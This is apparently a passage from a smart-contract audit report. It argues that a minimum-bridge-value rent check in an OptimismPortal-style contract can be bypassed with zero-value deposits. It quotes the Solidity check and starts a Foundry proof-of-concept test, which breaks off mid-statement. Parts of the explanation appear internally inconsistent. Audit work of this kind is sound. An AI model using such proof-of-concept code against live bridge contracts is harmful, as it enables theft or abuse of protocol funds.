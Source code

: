 This is where the invariant is broken

This is supposed to prevent bridging of value lesser than the L2 account rent 0.00089088 according to the protocol.

```solidity
    // prevent bridge value is lower than account rent. current l2 account rent is 0.00089088.
        if ((_mint != 0 && _mint < MIN_BRIDGE_VALUE) || (_value != 0 && _value < MIN_BRIDGE_VALUE)) {
            revert ValueTooLow();
        }
```

but this design fails and mint of 0 can be bridged bypassing this account rent. Here, `_mint` refers to the value of the gas token being deposited for rent, while `_value` is the actual transaction value.

Due to the hardcoded Ether return value in `gasPayingToken()`, the `isCustomGasToken()` check always evaluates to false.

This results in the rent validation logic failing to enforce the `MIN_BRIDGE_VALUE` requirement for custom gas tokens.

By sending a transaction with msg.value == 0, the protocol incorrectly processes the transaction even when the required account rent (e.g., 0.00089088 ETH) is not provided.

### Proof of Concept

```solidity
    contract OptimismPortalBalance_Test is OptimismPortal_Test {
    MockERC20 token;
    bytes32 recipient_l2;
    uint256 constant DEPOSIT_VERSION = 0;

    function setUp() public override {
        super.setUp();
        token = new MockERC20("Test", "TST", 18);
        recipient_l2 = bytes32(uint256(uint160(makeAddr("recipient"))));
    }

    function test_depositTransaction_bypassesAccountRent() external {
        uint256 bridgeAmount = 2000 * 1e18;
        
        // Setup token
        token.mint(depositor, bridgeAmount);
        vm.startPrank(depositor);
        token.approve(address(optimismPortal), bridgeAmount);

        // Mock system config to use our token
        vm.mockCall(
            address(systemConfig),
            abi.encodeWithSignature("gasPayingToken()"),
            abi.encode(address(token), 18)
        );

        // Transfer tokens to portal first (simulating L1StandardBridge behavior)
        token.transfer(address(optimismPortal), bridgeAmount);

        bytes memory depositData = "";
        uint64 gasLimit = optimismPortal.minimumGasLimit(uint64(depositData.length));

        // Attempt deposit with no ETH for account rent
        vm.expectEmit(true, true, true, true, address(optimismPortal));
        emit TransactionDeposited(
            AddressAliasHelper.applyL1ToL2Alias(depositor),
            recipient_l2,
            DEPOSIT_VERSION,
```
